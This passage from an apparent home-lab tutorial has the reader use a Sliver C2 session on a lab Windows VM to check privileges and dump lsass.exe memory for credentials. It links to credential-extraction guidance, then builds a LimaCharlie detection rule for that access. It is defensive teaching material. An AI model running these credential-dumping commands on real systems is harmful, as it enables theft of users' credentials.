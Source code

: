 ## Step 9: Let’s Perform the Attack
1. Get back onto an **SSH session** on the **Linux VM**, and drop into a **C2 session** on your victim.
    1. Retrace your steps from **Step 7** if need be.
2. Run the following commands within the **Sliver session** on your victim host:
    1. First, we need to **check our privileges** to make sure we can perform privileged actions on the host:
    ```
    [server] sliver (payload_name) > getprivs
    ```
        1. A powerful privilege to check for is **SeDebugPrivilege** which opens the door for many things. If you’ve got that, we’re good. If you don’t you need to **relaunch your C2 implant with administrative rights** as we did in **Step 7**.
    2. Next, let’s do something adversaries love to do for **stealing credentials** on a system — **dump the lsass.exe process from memory**. Read more about this technique here (https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/):
    ```
    [server] sliver (payload_name) > procdump -n lsass.exe -s lsass.dmp
    ```
        1. This will **dump the remote process from memory**, and **save it locally on your Sliver C2 server**. We are not going to further process the lsass dump, but I’ll leave it as an exercise for the reader if you want to try your hand (https://xapax.github.io/security/#attacking_active_directory_domain/active_directory_privilege_escalation/credential_extraction/#mimikatzpypykatz) at it.
        2. **NOTE:** This will fail if you did not launch your C2 payload with admin rights on the Windows system. If it still fails for an unknown reason (RPC error, etc), don’t fret, it likely still generated the telemetry we needed. Move on and see if you can still detect the attempt.

## Step 10: Let’s Create the Detection Rule
1. Now that we’ve done something adversarial, let’s switch over to
   **LimaCharlie** (https://app.limacharlie.io/) to find the relevant telemetry:
    1. Since **lsass.exe** is a known sensitive process often targeted by credential dumping tools, any good **EDR** will generate events for this.
    2. Drill into the **Timeline** of your **Windows VM sensor** and use the **Event Type Filters** to filter for **SENSITIVE_PROCESS_ACCESS** events.
        1. There will likely be many of these, but pick any one of them as there isn’t much else on this system that will be legitimately accessing lsass.
    3. Now that we know what the event looks like when **credential access** occurred, we have what we need to craft a **Detection & Response (D&R) Rule** (https://doc.limacharlie.io/docs/documentation/ZG9jOjE5MzExMDE-detection-and-response-rules) that would alert anytime this activity occurs:
        1. Click on the **Build D&R Rule** button in the top right of the event box to begin building a detection rule based on this event.
        2. In the **Detect** section of the new rule, remove all contents and replace them with this:
        ```
        event: SENSITIVE_PROCESS_ACCESS
        op: ends with
        path: event/*/TARGET/FILE_PATH
        value: lsass.exe
        ```
            1. We’re specifying that this detection should only look at **SENSITIVE_PROCESS_ACCESS** events where the victim or target process ends with **lsass.exe**
                1. For posterity let me state, this rule would be very noisy and need further tuning in a production environment, but for the purpose of this learning exercise, simple is better.
        3. In the **Respond** section of the new rule, remove all contents and replace them with this:
        ```
        - action: report
          name: LSASS access
        ```
            1. We’re telling **LimaCharlie** to simply generate a **detection report** anytime this detection occurs. For more advanced response capabilities, check out the docs. We could ultimately tell this rule to do all sorts of things (https://doc.limacharlie.io/docs/documentation/b43d922abb409-reference-actions), like terminate the offending process chain, etc. Let’s keep it simple for now.